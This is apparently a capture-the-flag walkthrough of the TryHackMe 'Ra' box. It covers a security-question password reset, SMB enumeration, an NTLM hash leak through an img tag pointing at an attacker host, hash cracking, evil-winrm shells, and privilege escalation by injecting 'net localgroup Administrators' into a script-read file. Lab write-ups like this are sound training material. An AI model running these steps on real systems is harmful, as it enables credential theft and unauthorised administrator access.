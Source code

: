 🚀 Walkthrough: Ra Box (TryHackMe)

    A step-by-step breakdown of the Ra box from TryHackMe — focused on SMB exploitation, password reset logic abuse, and privilege escalation through script injection.
    📌 Platform: TryHackMe
🎯 Box: Ra
🧠 Difficulty: Medium
🔐 Topics Covered: SMB Enumeration, Web Exploitation, NTLM Relay, Reverse Shell, Windows PrivEsc via Script Execution

🧭 Penetration Testing Methodology

    🔎 Reconnaissance

    📁 Enumeration

    💥 Exploitation

    🛠️ Privilege Escalation

🌐 Reconnaissance
🔍 Nmap Scan

nmap -sC -sV -T4 -p- <target-ip>

Key open ports discovered:

    139, 445 — SMB

    80 — HTTP

    Custom subdomains: fire.windcorp.thm, windcorp.thm

🔧 Add to /etc/hosts:

<target-ip> windcorp.thm fire.windcorp.thm

🧩 Enumeration
🔐 Web Application

Navigating to the site revealed a password reset page using security questions.

At the bottom of the homepage, we find an employee list. One employee, Lily Levesque, posted a picture of her dog. The image URL leaks the dog's name: sparky.

We attempt a password reset using:

    Username: lilyle

    Security Question: Pet's Name

    Answer: sparky

✅ Password successfully reset!
📦 SMB Enumeration

With the newly obtained credentials, we enumerate the SMB shares:

smbmap -u lilyle -p ChangeMe#123 -H windcorp.thm -R

Important discovery:
Shared/Flag1.txt and a folder containing Spark (a legacy chat client).

Retrieve files via:

smbclient //windcorp.thm/Shared -U lilyle

We notice that Spark v2.8.3 is vulnerable to an NTLM hash leak.
💣 Exploitation

We exploit Spark’s chat rendering vulnerability:

    Send a message containing:

<img src="http://<attacker-ip>/img.jpg">

    Launch responder to capture the NTLMv2 hash.

    Crack the hash using hashcat:

hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

✔ Cracked password: uzunLM+3131

We now use evil-winrm to gain shell access:

evil-winrm -u buse -p uzunLM+3131 -i windcorp.thm

🏁 Flag 2 acquired.
🧬 Privilege Escalation

In the root directory, we find:

C:\scripts\

Inside it:

    log.txt

    checkservers.ps1

Upon inspection, the script reads commands from:

C:\Users\brittanycr\hosts.txt

📌 Important Detail:
Our user has permissions to write or replace hosts.txt, although we can’t escalate directly via buse.

🧠 Exploit Plan:

    Create a new local user:

net user hacker MyStr0ngPass! /add

Elevate privileges by injecting this into hosts.txt:

    net localgroup Administrators hacker /add

📂 Modifying hosts.txt via SMB

smbclient //windcorp.thm/C$ -U brittanycr

Steps:

    get hosts.txt

    Append the payload locally

    rm hosts.txt

    put hosts.txt

Since checkservers.ps1 runs periodically, within 1 minute our hacker user becomes an administrator.

✅ Final shell as SYSTEM:

evil-winrm -u hacker -p MyStr0ngPass! -i windcorp.thm

🏁 Flag 3 captured.
🧠 Conclusion

This box demonstrates a multi-layered compromise:

    📦 Weak security questions → Credential reset

    🧠 Legacy app exploitation (Spark) → NTLM leak

    ⚙️ Poor privilege control → Script abuse for escalation

